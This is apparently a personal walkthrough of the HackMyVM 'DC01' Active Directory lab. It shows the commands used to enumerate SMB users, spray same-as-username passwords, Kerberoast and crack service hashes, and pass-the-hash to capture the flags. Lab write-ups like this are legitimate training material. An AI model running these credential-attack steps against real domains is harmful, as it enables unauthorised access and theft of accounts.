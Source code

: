 ```yaml
---
date: 2024-11-17
categories: [Windows, Easy, AD]
---
```


![dc01](https://github.com/user-attachments/assets/a46c6940-1c1b-4d61-ac21-f18575faa46d)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Easy           | Windows   |

---






- I start with a scan of the open ports
  
  ```bash
  nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.4 -oG scan
  ```
  
  ![image1](https://github.com/user-attachments/assets/01591839-9dfc-4749-a741-fa93699b6c5b)


- I continue with a scan of the versions and technologies that are running on the open ports that we have found
  
  ```bash
  nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49671,49686 -sCV -Pn 10.0.2.4 -oN ports
  ```
  
  ![image2](https://github.com/user-attachments/assets/d0dd926a-70a1-42ae-aa94-4bb3cd93a3e7)

- I list the resources shared by smb
  
  ```bash
  smbmap -H 10.0.2.4 -u 'guest'
  ```
  
  ![image3](https://github.com/user-attachments/assets/b5c65a0c-2c4b-49ac-bfc4-5a9692a64a31)

- Seeing that I have read permissions on IPC$ I can list system users. When I have a list of potential users I run it through crackmapexec to validate them
  
  ```bash
  impacket-lookupsid SOUPEDECODE@10.0.2.4 -no-pass
	
  crackmapexec smb 10.0.2.4 -u users -p "" --shares --continue-on-success
  ```
  
  ![image4](https://github.com/user-attachments/assets/8e3b6c75-e838-4b79-86e3-f72e5ee2f601)
  
- I am trying to remove users that use the same password as your own user, I find user ybob317
  
  ```bash
  netexec  smb 10.0.2.4 -u users_potencial  -p users_potencial  --no-bruteforce --continue-on-success | grep -v "[-]"
  ```
  
  ![image4](https://github.com/user-attachments/assets/30d238c3-7bcc-4474-bddf-0a50efe57a8f)

- I list with the found credentials the smb resources, I can list new folders and inside them I find the first flag
  
  ```bash
  smbmap -H 10.0.2.4 -u 'ybob317' -p 'ybob317'
  ```
  
  ![image5](https://github.com/user-attachments/assets/0a430a08-f298-40ec-bf0f-e64aadc810ba)
  
- I check if this user has permissions to connect via RDP
  
  ```bash
  crackmapexec winrm 10.0.2.4 -u "ybob317" -p "ybob317"
  ```
  
  ![imagee](https://github.com/user-attachments/assets/de0a1453-46f0-4a40-b7bc-f7a7be36c91c)

- I try to get user hashes through an ASREPRoast, without providing credentials I get nothing but using ybob317's credential I manage to dumpe several hashes
- I notice that I get an error due to a time difference between the machine and my computer, I adjust it with ntpdate
  
  ```bash
  ntpdate 10.0.2.4
  impacket-GetUserSPNs -request -dc-ip 10.0.2.4 SOUPEDECODE.LOCAL/ybob317:ybob317 -outputfile hashes.kerberoast
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
  ```
  
  ![image6](https://github.com/user-attachments/assets/4afc969a-ffe7-42cd-bda7-ec9c5047b166)

- With these new credentials I can view the contents of a new folder and I get a file containing hashes of several users
  
  ![image7](https://github.com/user-attachments/assets/3b740547-a8e6-49b2-8a29-52d5ba7170e4)
  ![image8](https://github.com/user-attachments/assets/595e146b-0a3c-4645-ae4c-216842db5944)


- I check if the hashes found belong to any user and I can do pass-the-hash (PtH). I find a user with whom I can do this attack and when I put Pwn3d! it tells me that I can connect to the machine
- When I log in I see that I have enough permissions to read the second flag
  
  ```bash
  netexec smb 10.0.2.4 -u a -p hahses --continue-on-success 
  ```
  
  ![image9](https://github.com/user-attachments/assets/01d650e3-4183-46b4-8bba-f5369a7222dd)

  ![image10](https://github.com/user-attachments/assets/1046945d-3cf9-47f5-8f4c-a3654203363e)





